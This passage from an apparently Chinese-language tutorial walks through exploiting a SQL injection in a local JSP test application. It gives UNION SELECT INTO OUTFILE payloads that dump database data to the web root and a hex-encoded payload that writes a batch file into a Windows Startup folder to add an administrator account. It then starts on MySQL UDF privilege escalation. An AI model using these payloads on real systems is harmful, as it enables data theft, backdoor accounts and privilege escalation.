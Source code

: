 ![enter image description here](http://drops.javaweb.org/uploads/images/6c0093eaaade64fedd3f4b7e2ffa9b8938ad5186.jpg)

#### 注入点友情备份:

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select '','',corps_name,corps_url from corps into outfile'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/1.txt'

```

注入在windows下默认是E:\如果用“\”去表示路径的话需要转换成`E:\\`而更方便的方式是直接用/去表示即E:/。 当我们知道WEB路径的情况下而又有outfile权限直接导出数据库中的用户信息。￼

![enter image description here](http://drops.javaweb.org/uploads/images/a3ed069e5578a288f93587b66150c7092a50ac27.jpg)

而如果是在一些极端的情况下无法直接outfile我们可以合理的利用concat和GROUP_CONCAT去把数据显示到页面，如果数据量特别大，我们可以用concat加上limit去控制显示的数量。比如每次从页面获取几百条数据？写一个工具去请求构建好的SQL注入点然后把页面的数据取下来，那么数据库的表信息也可以直接从注入点全部取出来。

#### 注入点root权限提权：

##### 1、写启动项：

这个算是非常简单的了，直接写到windows的启动目录就行了，我测试的系统是windows7直接写到:C:/Users/selina/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup目录就行了。用HackBar去请求一下链接就能过把bat写入到我们的windows的启动菜单了，不过得注意的是360那个狗兔崽子：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 0x6E65742075736572207975616E7A20313233202F6164642026206E6574206C6F63616C67726F75702061646D696E6973747261746F7273207975616E7A202F616464,'','','' into outfile 'C:/Users/selina/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/1.bat'

```

![enter image description here](http://drops.javaweb.org/uploads/images/b17258c45ef486662210b7de961a9c30a3f764d9.jpg)

##### 2、失败的注入点UDF提权尝试：

MYSQL提权的方式挺多的，并不局限于udf、mof、写windows启动目录、SQL语句替换sethc实现后门等，这里以udf为例，其实udf挺麻烦的，如果麻烦的东东你都能搞定，简单的自然就能过搞定了。 在进行mysql的udf提权的时候需要注意的是mysql的版本，mysql5.1以下导入到windows目录就行了，而mysql<=5.1需要导入到插件目录。我测试的是Mysql 5.5.27我们的首要任务就是找到mysql插件路径。

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,@@plugin_dir

```

获取插件目录方式：

```
select @@plugin_dir
select @@basedir
 show variables like ‘%plugins%’

```

![enter image description here](http://drops.javaweb.org/uploads/images/2c880d25485ea18c971d294a1da71784b33c3481.jpg)

